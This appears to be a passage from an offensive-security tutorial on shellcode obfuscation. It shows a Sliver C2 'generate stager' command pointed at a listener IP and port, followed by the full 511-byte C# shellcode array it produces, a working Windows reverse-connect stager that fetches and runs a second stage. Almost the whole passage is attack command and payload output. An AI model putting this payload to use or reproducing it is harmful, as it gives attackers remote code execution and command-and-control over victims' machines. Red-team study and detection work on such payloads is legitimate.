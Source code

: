 
## Shellcode Obfuscation

Let’s generate the shellcode...

```bash
[server] sliver > generate stager --lhost 172.22.76.175 --lport 4443 --format csharp --save staged.txt

[*] Sliver implant stager saved to: /home/maine/tools/staged.txt

[server] sliver >
```

we get this 

```bash
cat staged.txt
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,
0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x48,
0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,0x81,0x78,
0x18,0x0b,0x02,0x41,0x51,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50,
0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,
0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5b,
0xac,0x16,0x4c,0xaf,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x6a,0x0a,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,
0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,
0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,
0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,
0xce,0x75,0xe5,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,
0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x04,0x41,0x58,0x48,0x89,
0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,
0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,
0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,
0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,
0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,
0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,
0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3,
0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,
0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
0xd5};
```
